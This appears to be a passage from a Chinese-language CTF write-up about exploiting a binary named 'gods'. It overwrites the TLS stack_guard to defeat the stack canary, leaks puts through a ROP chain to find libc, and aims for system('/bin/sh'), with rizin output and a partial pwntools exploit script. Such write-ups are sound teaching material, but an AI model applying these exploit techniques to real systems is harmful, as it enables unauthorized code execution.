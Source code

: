 其中, `stack_guard` (fs + 0x28 或者 gs + 0x33 位置) 就是函数取 canary 的地方. 函数前后, 会把程序调用栈上的 canary 和 TLS 上的 `stack_guard` 进行比较. 如果不同, 则认为程序发生了栈溢出, 调用函数 `__stack_chk_fail()`.

`vuln` 函数的第 14 行, 第 48 \~ 51 行就是在进行 canary 检查:

```c
    // ...
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    // ...
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
    // WARNING: Subroutine does not return
        sym.imp.__stack_chk_fail();
    }
    // ...
```

由于具有任意地址写的功能, 那么可以修改 `stack_guard` (fs + 0x28) 的值, 同时修改 canary, 保证两者相等, 就能够绕过 canary 了.

由于栈上数据相对位置不变, 所以只需要简单计算一下偏移, 然后计算 rank 取多少, 能够写入到 `stack_guard` 的位置就行.

调试模式启动 rizin, 断点下到 `vuln` 处. 运行程序. `dr fs; dr rbp` 查看 fs 和 rbp:

```
[0x00401236]> dr fs; dr rbp
0x7f1ba00fd700
0x7f1ba00fcef0
```

然后计算 (fs+0x28) - (rbp-0x40) = 0x878, 再除以 `sizeof(names[0])` = 8, 得到 rank - 1 = 0x10f, 所以 rank = 0x10f + 1 = 0x110 = 272. 也就是输入 rank 为 272, 然后输入一个数, 构造 ROP 覆盖 canary 的时候也写这个数就行了.

接下来需要知道 libc 的偏移. 可以找一个已调用过的库函数, 如 puts. 由于还需要输入, 再利用一次栈溢出才能构造获得 shell 的 ROP, 所以将最后的返回地址填为 sym.vuln.

需要找一个 pop rdi; ret 用来传参, `"/R/ pop rdi; ret"`

```
[0x00401236]> "/R/ pop rdi;ret"
  0x004015d3                 5f  pop rdi
  0x004015d4                 c3  ret
```

将打印出来的 got.puts 内容, 也就是 puts 的真实地址, 减去 libc.so 中 puts 的地址, 就得到了偏移.

然后 vuln 会再次运行, 不过因为全局变量 `obj.edit_times` 已经是 0 了, 就不会进入循环, 而是直接输入 `my_name`. 这个时候再利用计算出的偏移以及 libc.so 中的 `system` 函数和 `"/bin/sh"` 字符串, 即可得到 shell.

64 位程序调用 `system` 需要堆栈对齐, 可能需要在 ROP 链之前加一个 `ret` 来使栈对齐.

exp:

```python
from pwn import *

io = process('./gods')
# io = remote('pwn.archive.xdsec.chall.frankli.site', 10086)

elf = ELF('./gods')
libc = ELF('./libc-2.31.so')
sym_vuln = elf.sym['vuln']
got_puts = elf.got['puts']
plt_puts = elf.plt['puts']
pop_rdi_ret = 0x004015d3
ret = pop_rdi_ret + 1

io.sendline(b'yes')

io.sendline(b'272 aaaaaaa') # 覆盖 TLS 中的 stack_guard
io.sendline(b'8 aaaaaaa')

payload_leak = b'a' * (0x20 - 0x08) + b'aaaaaaa\x00' + b'a' * 0x08
payload_leak += p64(pop_rdi_ret) + p64(got_puts) + p64(plt_puts) + p64(sym_vuln)
```